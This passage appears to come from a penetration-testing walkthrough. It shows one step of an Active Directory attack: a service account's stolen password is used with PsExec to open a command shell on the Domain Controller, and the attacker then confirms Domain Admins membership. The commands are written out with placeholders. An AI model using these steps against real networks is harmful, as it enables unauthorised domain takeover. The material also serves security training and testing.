


5. Use Password to obtain shell of the DC
Download:
https://docs.microsoft.com/en-us/sysinternals/downloads/psexecWe
can use PsExec.exe, a sysinternal tool from Microsoft, to set up a session toward the Domain Controller using the
credentials Stolen from the
Service account
PS> .\PsExec.exe -accepteula -u [DOMAIN.TLD]\[Service] -p [Password] \\[IpDomainController] cmd.exe
C:\> hostname
C:\> whoami

C:\> net user svcsqlserver
Because now we are now the
Domain Controller one of the groups
should be the "
Domain Admins"
